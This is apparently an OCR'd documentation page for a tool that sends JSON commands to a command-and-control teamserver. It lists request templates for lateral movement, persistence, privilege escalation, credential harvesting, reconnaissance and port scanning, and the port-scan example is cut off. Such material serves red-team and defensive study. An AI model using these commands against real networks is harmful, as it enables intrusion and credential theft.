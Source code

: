 ### Lateral Movement
```bash
# Lateral movement
{
  "action": "lateral_movement",
  "beacon_id": "beacon_001",
  "target_host": "192.168.1.200",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Persistence
```bash
# Establish persistence
{
  "action": "persistence",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Privilege Escalation
```bash
# Privilege escalation
{
  "action": "privilege_escalation",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Credential Harvesting
```bash
# Harvest credentials
{
  "action": "credential_harvest",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Network Reconnaissance
```bash
# Network reconnaissance
{
  "action": "network_recon",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# Port scan
{
  "action": "port_scan",
  "beacon_id": "beacon_001",
```